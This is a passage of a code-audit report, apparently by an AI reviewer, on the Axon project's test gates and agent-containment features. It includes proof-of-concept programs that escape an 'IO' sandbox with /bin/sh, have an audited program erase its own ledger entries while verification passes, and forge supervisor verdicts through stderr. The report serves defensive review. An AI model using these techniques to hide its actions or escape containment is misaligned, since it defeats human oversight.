**Recommendation:** Delete line 83 or replace it with a real check (assert acc_a5's name appears in the passing-test list from the log). For step 3, drop `|| true`, use cargo's exit status as the verdict, and additionally require `R27_COUNT` to meet the expected suite count (6) so a compile failure or a vanished target cannot read as green.

#### [MEDIUM] 12 named axon-os acceptance tests return green with zero assertions when the axon binary is absent, and acceptance_gate.sh tolerates exactly that
*crates/axon-os/tests/acceptance.rs* · kind: `silent-early-return` · confidence: high

Twelve tests in the axon-os acceptance suites open with a silent early return:

    crates/axon-os/tests/acceptance.rs:70,143,185,238,271,311,345
    crates/axon-os/tests/r27_acceptance.rs:55,101,134,174,210

    let Some(axon) = axon_bin() else { return; };

and axon_bin() (acceptance.rs:23-32) resolves to `workspace_root().join("target/debug/axon")` with `p.exists().then_some(p)` — no binary, no assertions, `test ... ok`. Among them is acc_a5_deterministic_byte_identical (:270), the A5 byte-identical-record check, which is also what r27_acceptance_gate.sh:83 unconditionally claims coverage from.

scripts/acceptance_gate.sh is built to tolerate this rather than catch it. At :56-62 it explicitly continues when the interpreter build fails:

    if ! cargo build -q -p axon-core --no-default-features --bin axon 2>/dev/null; then
      echo "acceptance_gate: interpreter build unavailable — running pure tests only"
    fi

then runs `cargo test -q -p axon-os` at :66 and, if it passes, prints at :83 'OK — every R21 §0 check present, unstubbed, and green'. Its A1-A6 presence check (:31-36) is `grep -rqs "fn $name" $SRC` — it verifies the function's *name* exists in the source text, never that it executed or asserted anything, and its anti-stub scan (:40-49) only catches `#[ignore]`, `todo!()`, `unimplemented!()` and literal `assert!(true)`. A test whose whole body is an early return passes both checks. On a clean checkout with an empty target/ — i.e. CI — the A1-A6 acceptance criteria are all no-ops while the gate reports them green.

(Mechanism read from source and confirmed against the code paths; I did not delete the repo's binary to trigger it, since the on-disk artifact makes the guard currently pass.)

**Recommendation:** Make axon_bin() panic instead of returning None unless an explicit opt-out (e.g. AXON_OS_TESTS_ALLOW_NO_BIN=1) is set, so a missing binary is a loud failure. In acceptance_gate.sh, turn the failed-interpreter-build branch at :57-62 into `exit 1`, and add a floor: parse the passed-test count from the cargo output and require each of the 10 REQUIRED names to appear in the list of tests that actually ran.

#### [MEDIUM] r29_acceptance_gate.sh's definition of "done" is grep-for-identifier plus `wc -l > 50`
*scripts/r29_acceptance_gate.sh* · kind: `shape-not-content` · confidence: high

Six of the seven steps in the R29 continuous-compliance-monitor acceptance gate are pure text greps over source. The 'substance check' (scripts/r29_acceptance_gate.sh:98-121) is:

    LINES=$(wc -l < "$MONITOR_SRC")
    if [[ "$LINES" -gt 50 ]]; then
      ok "substance: monitor.rs has $LINES lines (>50)"
    ...
    grep -q 'ComplianceMonitor'   → ok
    grep -q 'ViolationDetected'   → ok
    grep -q 'allowed_effects'     → ok

Step 6 (:127-148) greps cli.rs for the string literals `"--monitor"`, `"--ledger"` and `CONTAINMENT_VIOLATION_EXIT_CODE`. Step 8 (:168-180) greps monitor.rs for the substring `I-1\|I-2\|...` — which matches a comment — and for the constant name `R29_TCB_ADDENDUM`. None of these executes the monitor or observes a containment violation being detected; a stubbed-out monitor that still mentions all the right identifiers and exceeds 50 lines scores full marks.

The one behavioural step (:154-160) is the zero-test hole documented in the finding above ('PASS: cargo test: r29 tests passed (0 tests)').

Also: the four substance checks sit inside `if [[ -f "$MONITOR_SRC" ]]` with no else branch (:97, closing :121), so deleting monitor.rs makes them silently vanish rather than fail.

**Recommendation:** Replace the identifier greps with behavioural assertions: run axon-os with --monitor against a job that exceeds its effect ceiling and assert exit code 12 and the specific ledger record, the way axon_kernel_gate.sh:132 does for exit 8. Keep the greps only as a cheap pre-flight. Add an else branch to the `-f $MONITOR_SRC` guard that fails.

#### [MEDIUM] 31 scripts — including every R22-R39 acceptance gate — are invoked by nothing at all
*scripts/gate.sh* · kind: `orphaned-gate` · confidence: high

gate.sh runs exactly two scripts: vision_focus.sh (a VISION.md text lint) and parity_all.sh. A further 12 scripts are reachable from the Rust test suite. The remaining 31 are invoked by no script, no cargo test, and no CI workflow:

    acceptance_gate.sh          axon_kernel_gate.sh      axon_safety_gate.sh
    r22_acceptance_gate.sh      r23_acceptance_gate.sh   r26_acceptance_gate.sh
    r27_acceptance_gate.sh      r28_acceptance_gate.sh   r29_acceptance_gate.sh
    r30_acceptance_gate.sh      r31_acceptance_gate.sh   r32_acceptance_gate.sh
    r33_acceptance_gate.sh      r34_acceptance_gate.sh   r39_slice1..5 gates (7)
    verify_all_specs.sh         kernel_enforce_test.sh   ebpf_verify.sh
    tee_sim_run.sh              zephyr_qemu_gate.sh      gfx_wgpu_render_gate.sh
    fc_boot_test.sh             browser_webgpu_clear.sh  native_ffi_forge.sh
    perf_bench.sh               r1_build_measure.sh      wasm_aot_link_probe.sh
    build-guest-image.sh        setup-environments.sh    fix_codec.sh

These are the documented definitions of 'done' for R21-R39 — attestation, corrigibility, the audit ledger, the compliance monitor, coalition ceilings, the eBPF verifier, the TEE enclave, the Zephyr port. acceptance_gate.sh:6 states its own intent: '# Wire into gate.sh --strict.' It never was. r26/r27/r28/r29 are chained only from axon_safety_gate.sh, which is itself orphaned, so the whole chain is dead code.

This compounds every other finding here: r27's hardcoded PASS, r29's line-count substance check and r34's zero-test filter have no consequence today because nothing runs them — but they are what a future 'the gates are green' claim would rest on.

**Recommendation:** Decide per script: wire it into gate.sh --strict (or a new scripts/acceptance_all.sh with a floor, mirroring parity_all.sh), or delete it. An acceptance gate that nothing runs is worse than no gate — it reads as coverage in REQUIREMENTS.md and the phase table while providing none. Whatever aggregator you add, give it the pass-count floor that parity_all.sh lacks.

#### [LOW] examples/flagship/demo.sh and axon_kernel_gate.sh pass with the kill-switch and attestation layers skipped
*examples/flagship/demo.sh* · kind: `missing-floor` · confidence: high

demo.sh's verdict (examples/flagship/demo.sh:272-277) is `if FAIL > 0 then exit 1; else DEMO PASSED`. PASS and SKIP are counted separately and SKIP is never consulted. Layer 3 (R27 kill-switch, :152) and Layer 4 (R26 attestation, :219) skip when axon-os / axon-vm are absent, so a run that only demonstrated the compile-time check still prints 'DEMO PASSED'. Since this is the only stage that executes under a fully-skipped axon_safety_gate.sh (finding above), it is load-bearing.

On this host it is not currently vacuous — I ran it:

```
  PASS: agent_task.ax passes axon check  (exit 0 — no capability errors)
  PASS: agent_task_evil.ax: REFUSED — 3 E1001 errors (fs-read, net, exec)
  PASS: good agent ran cleanly (exit 0) — scored candidates without touching net/fs/exec
  PASS: agent halted by kill-switch (exit 4 / HALTED verdict)
  PASS: audit record intact — hash chain verifies (R28 ledger via axon-os verify)
  PASS: attestation report produced (schema: axon-attest/1)
  Passes: 6  Skipped: 0  Failures: 0
DEMO PASSED
```

But the floor is absent. Relatedly, axon_kernel_gate.sh:157-163 handles DEMO_PASS==0 by passing anyway: `ok "flagship demo ran (all active layers passed or skipped)"`.

**Recommendation:** In demo.sh require `PASS -ge 6` (or `SKIP -eq 0` unless DEMO_ALLOW_SKIP=1). In axon_kernel_gate.sh:163, make the zero-pass branch a fail rather than an ok.

#### [LOW] gdt_layout_ir_test.sh's wrong-width-store check is negative-only and keyed to LLVM SSA register names
*scripts/gdt_layout_ir_test.sh* · kind: `negative-only-assertion` · confidence: high

scripts/gdt_layout_ir_test.sh:79 is the guard added after the @[packed] i64-store memory-corruption bug:

    BAD_STORES="$(grep -E 'store i64 [^,]+, ptr %(limit_lo|base_lo|base_mid|access|flags|base_hi)' "$IR" || true)"
    if [[ -n "$BAD_STORES" ]]; then ... fail ...

It only fails on a match. If codegen ever stops emitting those exact named allocas — numbered SSA values, an LLVM naming change, a field rename in hello_kernel_slice3.ax — BAD_STORES is empty and the check passes while proving nothing. There is no positive counterpart asserting that N correct-width stores exist.

I verified it is live today, so this is fragility rather than a current hole:

```
$ ./target/debug/axon build --freestanding --emit-llvm examples/kernel/hello_kernel_slice3.ax --out gdt.ll
$ grep -cE 'ptr %(limit_lo|base_lo|base_mid|access|flags|base_hi)' gdt.ll
12
```

Noting it because this is the same shape-vs-content class as the bug the check was written to catch — a negative assertion whose subject can silently disappear.

**Recommendation:** Add a positive floor next to it: count the correct-width stores (`store i8 …, ptr %access` etc.) and require the expected number (one per GdtEntry field), so a renaming that empties BAD_STORES also empties the positive count and fails.

### Coverage holes — claimed-complete safety behaviors — 6 findings (2C/3H/1M/0L)
> **Verdict:** Unhealthy — the kill-switch and refinement/exit-code paths are genuinely well covered, but the two newest safety claims (Phase-9 `Sandbox<P>` runtime ceiling, R28 hash-chained audit ledger) have effectively ZERO end-to-end tests and both are broken today: a sandbox with an `"IO"` ceiling permits `exec` and filesystem access, and a program can erase its own ledger entries while `audit verify` reports "intact". None of the 20 `r*_acceptance_gate.sh` safety gates is wired into gate.sh or CI.
>
> I cross-checked CLAUDE.md's phase claims and REQUIREMENTS.md's evidence column against test existence by grepping for each safety feature's identifiers in crates/*/tests and scripts, then attacked whatever came back empty with real programs against a freshly built interpreter and codegen binary. The kill-switch held under every bypass I tried (sandbox_run, goal_run, direct post-halt call all route through call_fn and refuse with exit 4; codegen E0910-refuses corrigible_halt), and refinement exit-6 coverage is genuinely thorough. The holes clustered exactly where no test existed: Phase-9 Sandbox (0 references outside source + docs) and R28's ledger (0 test references to AXON_AUDIT_LEDGER), both of which broke on the first program I pointed at them. The build-CWD bug fell out of my own repro attempts and is invisible to every harness because they all cd to the repo root first.

#### [CRITICAL] Phase-9 `Sandbox<P>` ceiling collapses FS and Exec into "IO" — a sandbox that allows printing also allows arbitrary process execution and file access. Zero tests exist for the feature.
*crates/axon-core/src/builtins.rs:2209-2211 (builtin_effect_row); crates/axon-core/src/interp/builtins.rs:189-207 (enforcement)* · kind: `capability-refusal` · confidence: high

CLAUDE.md Phase 9 is marked "✅ Complete", with F5 described as: "any builtin whose effect row exceeds the ceiling raises SandboxViolation (exit 8)". The `sandbox_run` docstring (builtins.rs:1275) names the intended use case: "AI-generated tool execution where the tool function is not known at compile time".

Enforcement (interp/builtins.rs:189-207) keys on `builtins.rs::builtin_effect_row()`, which assigns:
```
"println" | "print" | "eprintln" | "eprint" | "read_line" | "read_file" | "write_file"
| "env_var" | "exit" => &["IO"],
"exec" => &["IO"],
```
There is no `FS` or `Exec` effect in the runtime catalog at all. So the smallest ceiling that permits console output necessarily grants `exec` and the whole filesystem.

Reproduced (`axon run`, interpreter, ceiling = "IO"):
```
fn tool(n: i64) -> i64 {
    let r = exec("/bin/sh", ["-c", "id -u > ./sbv_pwned.txt; echo PWNED"])
    match r { Ok(s) => println("exec inside sandbox succeeded: {s}")  Err(e) => println("exec err {e}") }
    let c = read_file("/etc/hostname")
    match c { Ok(s) => println("read /etc/hostname inside sandbox: {s}")  Err(e) => println("read err {e}") }
    n
}
fn main() -> i64 {
    let p = principal_root("root", false, false, false, 1000)
    let sb = sandbox_create(p, "IO")
    let r = sandbox_run(sb, "tool", 5)
    println("sandbox_run returned {to_str(r)}")
    0
}
```
output:
```
exec inside sandbox succeeded: PWNED
read /etc/hostname inside sandbox: gpumaster
sandbox_run returned 5
exit=0        # cat sbv_pwned.txt -> 0
```
The ceiling does fire when the effect is genuinely absent — swapping to `sandbox_create(p, "Net")` gives `axon: sandbox violation: builtin `exec` requires effect `IO` ... allowed set {"Net"}` / exit 8 — so the mechanism works; the effect vocabulary is the hole.

Internal inconsistency proving nothing cross-checks them: the R28 audit ledger in the same `call_builtin` uses `capabilities::capability_of_builtin()`, which DOES distinguish `fs:read`/`fs:write`/`net`/`exec` (capabilities.rs:331, and check_builtin_value_ref at :352-357 branches on exactly those four). Two capability classifiers in the same function disagree, and `builtins.rs::builtin_effect_row_agrees_with_impurity` only cross-checks rows against purity, never against `capability_of_builtin`.

COVERAGE: `grep -r sandbox_create` over the whole repo excluding target/ hits only CLAUDE.md, ROADMAP.md, three spec/review markdown files, and 3 source files. Zero tests, zero examples, zero harnesses. `grep 'Some(8)' crates/axon-core/tests/cli_run.rs` → no hits: exit 8 is never asserted end-to-end anywhere. This is also why the nested-sandbox escape found earlier this session shipped undetected — both are the base-level tests that were never written.

**Recommendation:** (1) Give `read_file`/`write_file`/`env_var` an `FS` row and `exec` an `Exec` row (or have sandbox enforcement consult `capability_of_builtin` instead of `builtin_effect_row`), and add a drift test asserting the two classifiers agree on every BUILTINS entry. (2) Add cli_run tests asserting exit 8 for each of the 4 capability classes escaping a ceiling, plus the negative (allowed effect runs), plus the nested-sandbox case. (3) Until fixed, downgrade Phase 9 from "✅ Complete" — the F5 acceptance claim is not met.

#### [CRITICAL] R28 hash-chained audit ledger is truncatable: an audited program can delete its own FS/Exec entries and `axon-os audit verify` reports "✓ ledger intact". Deleting the ledger entirely also verifies clean.
*crates/axon-audit/src/lib.rs (Ledger::verify / Ledger::open); crates/axon-os/src/cli.rs (audit verify)* · kind: `audit-ledger` · confidence: high

REQUIREMENTS.md R28: "✅ Landed — Ledger::open() now eagerly creates the ledger file ... call_builtin now audits every capability-bearing builtin", evidence `scripts/r28_acceptance_gate.sh PASS`. R29 layers on it ("denied-effect entry trips the R27 kill-switch").

The chain links each entry to the previous `entry_hash`, but nothing anchors the HEAD. Dropping a suffix leaves a perfectly valid 0..k chain.

Reproduction A — plain tail truncation of a real ledger produced by `axon run`:
```
$ head -2 interp.jsonl > trunc.jsonl     # 3-entry ledger -> keep first 2
$ axon-os audit verify --ledger trunc.jsonl
✓ ledger intact (2 entries, chain verified)
verify exit=0
```

Reproduction B — fully in-band, the audited program erases its own trail. `AXON_AUDIT_LEDGER` is readable via `env_var` and the ledger is an ordinary file the program can write:
```
fn wipe(led: str) -> i64 {
    let _w = write_file("./exfil2.txt", "stolen data")
    let script = "(sleep 2; head -c $(head -1 '{led}' | wc -c) '{led}' > '{led}.tmp'; mv '{led}.tmp' '{led}') >/dev/null 2>&1 &"
    let r = exec("/bin/sh", ["-c", script])
    match r { Ok(_s) => { println("cleanup scheduled") 0 }  Err(e) => { println("exec err: {e}") 1 } }
}
fn main() -> i64 { let led = env_var("AXON_AUDIT_LEDGER")  match led { Ok(p) => wipe(p)  Err(e) => { println("no ledger env: {e}") 1 } } }
```
Ledger BEFORE the detached helper fires — all four entries present, including the incriminating ones:
```
{"seq":0,..."effect":"IO","operation":"env_var",...}
{"seq":1,..."effect":"FS","operation":"write_file",...}
{"seq":2,..."effect":"Exec","operation":"exec",...}
{"seq":3,..."effect":"IO","operation":"println",...}
```
AFTER (2s later):
```
{"seq":0,..."operation":"env_var",...}
$ axon-os audit verify --ledger wipe4.jsonl
✓ ledger intact (1 entries, chain verified)
verify exit=0
```
The `write_file` and `exec` records are gone and verification passes.

Reproduction C — a ledger that does not exist at all:
```
$ axon-os audit verify --ledger /path/that/does/not/exist.jsonl
✓ ledger intact (0 entries, chain verified)
verify exit=0
```

What IS covered, showing the gap is precisely tail-drop: `missing_entry_fails_verification` (axon-audit/src/lib.rs:515-532) deletes a MIDDLE line and correctly fails, and a mid-run rewrite trips the seq check (`tamper detected at seq 4: expected seq 1, got 4`, exit 11). Only the suffix case is untested — grep for "truncat" in crates/axon-audit/src/lib.rs hits only `.truncate(true)` and the middle-deletion test's local variable named `truncated`.

**Recommendation:** Anchor the head: write a monotonically-advancing head marker (seq + entry_hash) to a separate append-only/immutable location, or have `Ledger::open()` stamp a run-start entry recording the expected prior head so a re-open detects a shortened predecessor; treat a 0-entry/absent ledger as FAIL, not PASS, when a run-start marker is expected. Add tests: tail truncation, empty file, absent file, and head-rollback. Separately, the ledger path should not be writable through the same capability set the audited program holds.

#### [HIGH] Natively-compiled Axon binaries write NO audit-ledger entries at all — the same program audits 3 capability uses under `axon run` and 0 under `axon build`. No test builds natively with AXON_AUDIT_LEDGER set.
*crates/axon-core/src/interp/builtins.rs (R28 hook, interp-only); scripts/r28_acceptance_gate.sh:64* · kind: `audit-ledger` · confidence: high

The R28 audit hook lives in the interpreter's `call_builtin` (crates/axon-core/src/interp/builtins.rs:~210, "R28: append one capability-audit-ledger entry for this builtin call when AXON_AUDIT_LEDGER is set"). There is no counterpart in codegen/axon-rt.

Same source file, both engines, AXON_AUDIT_LEDGER set:
```
fn main() -> i64 {
    let w = write_file("./cap_out.txt", "secret payload")
    let c = read_file("./cap_out.txt")
    match c { Ok(s) => println("read ok: {s}")  Err(e) => println("read err: {e}") }
    0
}
```
Interpreter — 3 chained entries:
```
{"seq":0,..."effect":"FS","operation":"write_file","prev_hash":"000...","entry_hash":"e96cb98a..."}
{"seq":1,..."effect":"FS","operation":"read_file",...}
{"seq":2,..."effect":"IO","operation":"println",...}
```
Native (`axon build cap.ax -o cap_bin3 --no-cache`, then run with the identical env):
```
read ok: secret payload
native exit=0
ls: cannot access '.../native2.jsonl': No such file or directory
$ axon-os audit verify --ledger .../native2.jsonl
✓ ledger intact (0 entries, chain verified)   # exit 0
```
So shipping a compiled Axon binary silently disables the entire capability audit trail, and the verifier declares the (nonexistent) result clean.

COVERAGE: `grep -rn AXON_AUDIT_LEDGER --include=*.rs crates/*/tests/` → 0 hits. The only thing that exercises the env var end-to-end is `scripts/r28_acceptance_gate.sh`, which builds `cargo build -p axon-core --no-default-features --bin axon` — i.e. the interpreter-only binary — so the native path is structurally unreachable from the gate. The R4 provenance work has parity harnesses for exactly this class (`provenance_parity.sh`, `agent_action_parity.sh`); R28 got none.

**Recommendation:** Either (a) mirror the audit append in axon-rt (matching the existing `__axon_log_agent_action` precedent) and add an `audit_ledger_parity.sh` asserting interp==native entry vectors, or (b) make `axon build` hard-refuse when the program uses capability-bearing builtins and AXON_AUDIT_LEDGER semantics are claimed. Also make `audit verify` fail on an absent/empty ledger rather than reporting intact.

#### [HIGH] All 20 `r*_acceptance_gate.sh` safety/attestation gates (R22–R34, incl. kill-switch, audit ledger, compliance monitor, quorum, TCB attestation) are referenced by nothing automated — not CI, not gate.sh, not parity_all.sh.
*scripts/gate.sh:56,130; scripts/parity_all.sh:48* · kind: `test-infrastructure` · confidence: high

These scripts are the sole cited evidence in REQUIREMENTS.md for the entire R26–R34 safety stack ("`scripts/r27_acceptance_gate.sh` 19/19 PASS", "`scripts/r28_acceptance_gate.sh` PASS (post-fix)", "`scripts/r29_acceptance_gate.sh` 24/24 PASS", "`scripts/r31_acceptance_gate.sh` ALL PASS (37 tests)", "`scripts/r32_acceptance_gate.sh` 20/20 PASS", etc.).

Mechanical check over all 33 gate-shaped scripts:
```
$ for f in scripts/*acceptance_gate.sh scripts/*_gate*.sh; do b=$(basename $f);
    grep -qr "$b" scripts/gate.sh .github/ && echo "REFERENCED: $b"; done
(none printed = none referenced)
```
gate.sh invokes exactly two scripts:
```
scripts/gate.sh:56:  ./scripts/vision_focus.sh || fail "VISION.md focus"
scripts/gate.sh:130: ./scripts/parity_all.sh --quiet || fail "parity suite"
```
and `parity_all.sh` globs only `scripts/*_parity.sh` (line 48: `for h in scripts/*_parity.sh`), which no acceptance gate matches.

This is a distinct layer from the already-established CI gap: even the strictest harness a human can run (`gate.sh --strict`) never executes a single safety acceptance gate. Every "re-verified 2026-07-18" claim in the R19–R34 table is a one-shot manual observation with no regression protection — which is exactly how the R28 zero-AI-call/no-file bug (fixed 0bfa74d) and the R32 grep-matching-"error"-inside-"No error has been found" bug survived, both documented in the matrix itself.

**Recommendation:** Add a `scripts/acceptance_all.sh` runner (same shape as parity_all.sh) globbing `scripts/r*_acceptance_gate.sh`, wire it into `gate.sh --strict`, and make each gate SKIP-with-marker (not silently pass) when its external dependency is absent. Prioritize r27/r28/r29 — the kill-switch, ledger and monitor are the load-bearing safety triple.

#### [HIGH] `axon build` only works when the current directory is the Axon source workspace; from anywhere else it silently drops libaxon_rt.a and dies with cryptic `undefined reference to __axon_*`. Every harness cds to the repo root, so nothing covers it.
*crates/axon-core/src/codegen/link.rs:657-666,702-712* · kind: `broken-promise` · confidence: high

`build_crate_staticlib` (crates/axon-core/src/codegen/link.rs:657-666) resolves the workspace manifest as:
```rust
let manifest = std::env::var("CARGO_MANIFEST_DIR")
    .map(|d| format!("{d}/../../../Cargo.toml"))
    .unwrap_or_else(|_| "Cargo.toml".into());
```
CARGO_MANIFEST_DIR is a *compile-time-of-cargo-run* variable, absent when the shipped `axon` binary is invoked directly, so the fallback is the relative string "Cargo.toml" — i.e. the user's CWD. The spawned `cargo build -p axon-rt` has stdout/stderr nulled (:702-704) and on failure the function returns `None`; the caller then links without the runtime archive.

Same file, same binary, only the CWD differs:
```
# cwd = /home/cklaus/projects/axon
$ axon build .../mini.ax -o .../mini_bin --no-cache
Binary: .../mini_bin (15475ms)
$ .../mini_bin  -> hi   (exit 0)

# cwd = the scratch dir containing mini.ax
$ axon build mini.ax -o mini_bin --no-cache
/usr/bin/ld: mini:(.text+0x2b84): undefined reference to `__axon_set_provenance_source'
error: linker (/usr/bin/cc) exited with exit status: 1     (exit 1)
```
Other programs surface more of the same: `undefined reference to __axon_verify_panic`, `__axon_install_recursion_guard`. `libaxon_rt.a` is present in target/debug and `nm -g` confirms it exports all three symbols — the archive is simply never passed to the linker.

COVERAGE: every build harness starts with `ROOT="$(cd "$(dirname "$0")/.." && pwd)"; cd "$ROOT"` (e.g. exit_code_parity.sh:19-20), and cli_run tests run under cargo with CARGO_MANIFEST_DIR set. So the entire native-build surface — the R1 "95% ✅ Working" headline — is only ever tested from inside its own source tree. No test builds a .ax file from a user-shaped directory.

**Recommendation:** Resolve the workspace root from the axon executable's own location (or bake it via build.rs / an AXON_HOME override) instead of the CWD; surface the cargo failure instead of nulling it, and hard-error with an actionable message when `rt_lib` is `None` rather than proceeding to a link that will fail obscurely. Add one test that builds a .ax file from a temp dir outside the repo.

#### [MEDIUM] Native `@[verify]` failure message names the wrong predicate subject ("confidence >= 0" for `value >= 0`) — exit codes match so `exit_code_parity.sh` cannot see it, and no harness compares verify stderr.
*crates/axon-rt/src/lib.rs:2787 (__axon_verify_panic); scripts/exit_code_parity.sh* · kind: `diagnostic-divergence` · confidence: high

Interp and native agree on exit 3, but the diagnostic diverges:
```
# interp
axon: verify failed: verify failed in `dec`: value -1 >= 0 is false (value -1, input 0)
interp exit=3
# native (same source, axon build)
axon: verify violation in `dec`: confidence >= 0 failed (actual=-1)
native exit=3
```
Source:
```
@[verify(value >= 0)]
fn dec(x: i64) -> i64 { x - 1 }
fn hidden(x: i64) -> i64 { dec(x) }
fn main() -> i64 { let z = 0  let r = hidden(z)  println("dec returned {to_str(r)}")  0 }
```
The native path reports the `confidence` atom for a predicate that constrains `value`, and drops the `input` field the interpreter emits. For an operator triaging a production verify trip this points at the wrong thing.

COVERAGE: `scripts/exit_code_parity.sh` compares only `$?` (`>/dev/null 2>&1` on both engines) and its case list never includes a `@[verify]` program at all — the exit-3 contract that REQUIREMENTS.md R9 calls out ("@[verify]→3 ... a supervisor can branch on") has no interp↔native harness. `scripts/provenance_parity.sh` covers adaptive-return records, not verify diagnostics.

**Recommendation:** Fix codegen's verify-panic formatter to name the actual predicate atom and include `input`, then extend exit_code_parity.sh (or add verify_msg_parity.sh) to diff stderr, not just the exit code, for the verify/refine/halt families — those are precisely the messages an operator reads.

### Exit-code + error contract — 14 findings (3C/3H/4M/4L)
> **Verdict:** The interpreter's own carved codes (3,4,5,6,7,8) are all reachable and distinct, but everything built on top of them is broken: axon-os silently reports exit 0 / "✓ completed" for guest exits 3/4/5, its verdict is forgeable from guest stderr, exits 9/10/12 have no producer in any shipped code path, exit 5 and the AI budget policy don't exist in native codegen at all, and the only exit-code parity harness covers just 0/6/101 so all of this passes green.
>
> I built both engines (`cargo build -p axon-core --bin axon`, `-p axon-rt`, `-p axon-os`) and wrote a program per code, running each under the interpreter, native AOT, and `axon-os run`. Interp 3/4/5/6/7/8 all fire, all distinct. Native: 3 and 6 match; 4/7/8 are cleanly E0910-refused (sound); 5 has no native producer at all and the AI budget meter is a silent no-op. axon-os: 4 (kill), 6, 8 fire; 3/4/5 from a guest are misreported as success; 9/10 are constructed only in tests; 12 requires a ledger nothing writes; 11 doesn't cover the verdict field. I also ran the existing scripts/exit_code_parity.sh (PASS) to confirm the gaps are genuinely uncovered rather than a regression I introduced.

#### [CRITICAL] axon-os reports "✓ completed" and exits 0 for guest exits 3 (@[verify]), 4 (kill-switch), and 5 (AI policy)
*crates/axon-os/src/runtime.rs* · kind: `unreachable-code-path` · confidence: high

`AxonCoreRuntime::run_sandboxed` (crates/axon-os/src/runtime.rs:377-414) classifies the guest run by grepping the child's stderr. There are branches for sandbox/capability, budget, refinement, timeout, and "axon: panic" — and nothing for "axon: verify failed", "axon: halted", or "axon: ai policy". Everything unmatched falls through to `Verdict::Completed { value: proc.code }`, and `Verdict::Completed` maps to exit 0 (verdict.rs:47).

Measured, three separate jobs, each guest verified to exit correctly on its own first:

  # guest alone
  $ axon run verifyfail.ax  -> axon: verify failed: ... ; exit=3
  $ axon run halt.ax        -> axon: halted: `act` refused: corrigibility kill-switch is latched ; exit=4
  $ axon run aipol.ax       -> axon: ai policy: [E1302] unknown AI tier `nonexistent` ; exit=5

  # same programs under the supervisor
  $ axon-os run verifyfail.axjob
  ✓ completed (value=3)  (run-id: run, record: .../run.json)
  exit=0
  $ axon-os run halt_io.axjob
  ✓ completed (value=4)  (run-id: run, record: .../run.json)
  exit=0
  $ axon-os run aipol.axjob
  ✓ completed (value=5)  (run-id: run, record: .../run.json)
  exit=0

The supervisor prints a checkmark for a program whose corrigibility kill-switch fired. The persisted `run.json` audit record also stores `verdict: Completed`, so the false success is what gets archived and re-verified.

**Recommendation:** Stop inferring the verdict from stderr prose. The guest is `axon run`, whose exit codes are a defined contract — have the runtime wrapper emit a structured, non-guest-writable status (e.g. a fd-3 or side-file JSON line written by the interpreter itself, or reserve the child's exit code by making the sandbox wrapper's `main` never return the job's raw value). At minimum, add explicit branches mapping guest exit 3 → a policy verdict, 4 → Halted, 5 → a policy verdict, before the Completed fallthrough.

#### [CRITICAL] Guest program controls the supervisor's verdict and exit code by writing to stderr
*crates/axon-os/src/runtime.rs* · kind: `verdict-forgery` · confidence: high

Because classification is `err.contains(...)` (runtime.rs:388-406), any guest granted IO can name its own verdict. Three clean programs that do nothing but `eprintln` and `return 0`:

  forge.ax:  fn main() -> i64 { eprintln("budget exhausted: totally legit")  0 }
  $ axon-os run forge_io.axjob
  budget exhausted: budget  (run-id: run, ...)
  exit=7

  forge2.ax: fn main() -> i64 { eprintln("capability")  0 }
  $ axon-os run forge2_io.axjob
  ⚠ DENIED: runtime capability/sandbox violation (axis: sandbox)  (run-id: run, ...)
  exit=8

  forge3.ax: fn main() -> i64 { eprintln("axon: refinement violated: nope")  0 }
  $ axon-os run forge3_io.axjob
  refinement violated: refinement violated: nope  (run-id: run, ...)
  exit=6

The bare substring `capability` is especially wide — any diagnostic or log line containing that word flips a clean run to DENIED/8. Paired with the previous finding, the supervisor's exit code is guest-controlled in both directions: forge a fault, or hide a real one.

**Recommendation:** Same root fix. Until the channel is separated, at minimum anchor the matches to the interpreter's own `axon: ` prefix at line start and drop the bare `capability` substring — but note that a guest can print `axon: ` too, so substring matching on a guest-writable stream cannot be made sound.

#### [CRITICAL] `axon-os verify` (exit 11) does not authenticate the verdict — a violation record can be rewritten to "Completed" and still verifies intact
*crates/axon-os/src/record.rs* · kind: `audit-integrity` · confidence: high

`record::build`/`record::verify` (crates/axon-os/src/record.rs:125-200) hash-chain only the `events` array, seeded by `manifest_digest`. `verdict`, `seed`, and `run_id` are outside the chain, and `record_digest` is just the chain head.

Starting from a genuine RefineViolation record (`axon-os run refine.axjob` → exit 6, verdict RefineViolation):

  # rewrite the verdict to a clean completion
  d = json.load(open('r6.json')); d['verdict'] = {'kind':'Completed','value':0}
  $ axon-os verify t3.json
  ✓ intact (1 events, digest axrec1:93397f16...)
  exit=0

  # flip the seed 42 -> 43
  $ axon-os verify tampered.json
  ✓ intact (1 events, digest axrec1:93397f16...)   <- identical digest
  exit=0

  # control: tamper an event field, which IS chained
  $ axon-os verify t4.json   (caps_used += net,exec)
  ✗ TAMPERED: event 0: hash mismatch (tampered field)
  exit=11

So exit 11 fires only for the fields nobody would need to forge, and never for the one field that determines the run's outcome and its exit code.

**Recommendation:** Fold `verdict`, `seed`, and `run_id` into the hash chain — e.g. append a terminal `verdict` pseudo-event to the chain before computing `record_digest`, or hash the canonical serialization of the whole record minus `record_digest`. Add a regression test that mutates `verdict` and asserts VerifyMismatch/exit 11.

#### [HIGH] Exit 5 does not exist in native codegen, and @[ai(policy(budget: N))] is silently unenforced in AOT binaries
*crates/axon-core/src/codegen/mod.rs* · kind: `interp-native-divergence` · confidence: high

`grep -rn "E1300|E1301|ai_budget|AI_POLICY_EXIT_CODE" crates/axon-core/src/codegen/ crates/axon-rt/src/ crates/axon-ai/src/` returns nothing. Codegen refuses only a non-`balanced` tier (E0910). Both other AI-policy classes diverge:

(a) Budget bypass — three ai_complete calls under a budget of 1, identical env on both engines:

  @[ai(policy(budget: 1))]
  fn ask() -> i64 { let a = ai_complete("one")  let b = ai_complete("two")
                    let c = ai_complete("three")
                    match c { Ok(s) => { println("got: {s}")  0 }  Err(e) => 1 } }

  $ AXON_AI_MOCK=1 axon run e5b2.ax
  axon: ai policy: [E1301] `ask` exceeded its AI budget of 1 call(s) ...
  interp exit=5
  $ axon build e5b2.ax -o e5b2.bin --no-cache   (build exit=0, no diagnostic)
  $ AXON_AI_MOCK=1 ./e5b2.bin
  got: Mock summary: the single most important fact, stated concisely.
  native exit=0

The third over-budget call dispatched and the binary exited clean. The R3c budget meter is interpreter-only.

(b) Offline-no-fallback — interp treats E1300 as an unrecoverable exit 5; native turns it into an ordinary recoverable `Err`:

  $ axon run e5_offline.ax   -> axon: ai policy: [E1300] ... ; exit=5
  $ ./e5_offline.bin         -> exit=1     (the Err arm of the match ran)

This is an I-2 (observable-behavior parity) violation in the unsafe direction: the AOT binary keeps running past a policy stop the interpreter treats as fatal.

